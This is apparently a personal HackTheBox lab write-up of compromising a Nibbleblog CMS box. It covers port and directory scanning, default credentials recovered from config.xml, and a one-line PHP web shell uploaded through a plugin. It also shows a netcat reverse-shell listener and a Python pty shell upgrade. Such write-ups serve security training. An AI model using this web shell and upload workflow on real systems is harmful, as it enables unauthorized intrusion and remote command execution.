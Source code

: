 # Day25 - initial_foothold_hard

- **Platform**: HackTheBox  
- **Category**: Web / Initial Foothold  
- **Difficulty**: Medium  
- **Date**: 2025-05-25  
- **Tools Used**: Nmap, Gobuster, Firefox, PHP reverse shell, Python  

---

## Summary
The challenge involved exploiting Nibbleblog, a lightweight CMS running on Apache. After discovering credentials in configuration files, I logged into the admin panel, identified a vulnerable plugin that allowed file uploads, and uploaded a PHP reverse shell. With a shell obtained, I navigated the filesystem and retrieved `user.txt`.

---

## Enumeration
1. **Port Scan**
   ```bash
   nmap -sC -sV 10.129.252.140
   ```
   - Open ports:
     - 22 → SSH  
     - 80 → HTTP (Apache 2.4.18, Ubuntu)  

2. **Web Enumeration**
   - Base URL: `http://10.129.252.140` returned a default Apache page.  
   - Gobuster scan on `/nibbleblog/`:
     ```bash
     gobuster dir -u http://10.129.252.140/nibbleblog/ \
       -w /usr/share/seclists/Discovery/Web-Content/common.txt
     ```
     - Discovered:
       - `/admin` and `/admin.php`  
       - `/content/`  
       - `/plugins/`  
       - `/themes/`  
       - `/languages/`  

   - Found `users.xml` → revealed admin username.  
   - Found `config.xml` → contained admin password (`nibbles`).  

3. **Login**
   - Accessed `/nibbleblog/admin.php`.  
   - Logged in successfully with `admin:nibbles`.  

---

## Exploitation
1. **File Upload Vulnerability**
   - Investigated admin panel features.  
   - Found plugin supporting image uploads.  
   - Tested upload with a simple `.php` script and confirmed execution.  

2. **Reverse Shell**
   - Crafted PHP reverse shell:
     ```php
     <?php system($_GET['cmd']); ?>
     ```
   - Uploaded and triggered via browser request:
     ```
     http://10.129.252.140/nibbleblog/content/private/plugins/<path>/shell.php?cmd=id
     ```
   - Confirmed execution.  
   - Uploaded full PHP reverse shell, caught with Netcat:
     ```bash
     nc -lvnp 4444
     ```
   - Upgraded shell:
     ```bash
     python3 -c 'import pty; pty.spawn("/bin/bash")'
     ```

3. **Flag Retrieval**
   - Navigated through directories with `ls`, `pwd`, `find`.  
   - Located and read `user.txt`.  

---

## Lessons Learned
- CMS platforms like Nibbleblog often have weak configurations or outdated plugins that allow file upload exploitation.  
- Enumerating XML configuration files can quickly reveal credentials.  
- File upload testing should always include attempts at executing PHP/ASP/other server-side scripts.  
- Once a foothold is achieved, stabilizing the shell (`pty.spawn`) makes further enumeration and exploitation easier.  
